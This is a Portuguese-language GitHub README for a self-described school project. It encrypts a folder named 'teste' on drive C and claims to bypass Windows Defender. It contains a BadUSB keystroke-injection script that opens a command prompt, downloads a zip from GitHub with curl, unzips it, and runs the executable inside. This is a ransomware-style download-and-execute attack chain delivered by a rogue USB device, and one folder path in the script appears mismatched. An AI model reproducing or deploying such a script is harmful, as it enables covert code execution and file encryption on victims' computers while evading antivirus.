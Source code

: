 # CifrarPastaTrabalhoEscola
Trabalho escola para cifrar uma pasta


rapysberry pi bad usb encrpyt a folder
PROJETO DESENVOLVIDO POR PEQSPC
PROJETO DE ESCOLA PARA CIFRAR UMA PASTA que da bypass ao windows defender

este PROJETO VAI CIFRAR UMA PASTA NO DISCO C CHAMADA DE TESTE 
Por isso se quiseres testar este projeto tens que criar uma pasta no disco c e meter o nome de teste 
e adicionar alguns ficheiros la dentro



CONTINUACAO DO PROJETO E FAZER DOWNLOAD DO FICHEIRO NO GITHUB A USAR UMA BADUSB PARA ELA FAZER O DOWNLOAD E EXECUTAR E CIFRAR UMA PASTA NO PC



REM Inicia o Notepad
DELAY 1000
GUI r
DELAY 1000
REM Abre a janela de comando
STRING cmd
ENTER
DELAY 1000
REM Vai para a pasta de downloads
STRING cd downloads
ENTER
DELAY 1000
REM Faz o download do arquivo ZIP
STRING curl -LJO https://github.com/PEQSPC/CifrarPastaTrabalhoEscola/archive/refs/heads/main.zip
ENTER
DELAY 5000
REM Descompacta o arquivo ZIP
STRING unzip CifrarPastaTrabalhoEscola-main.zip
ENTER
DELAY 1000
REM Vai para a pasta descompactada
STRING cd repo-master
ENTER
DELAY 1000
REM Executa o arquivo dentro da pasta
STRING cifrarumapasta.exe
ENTER
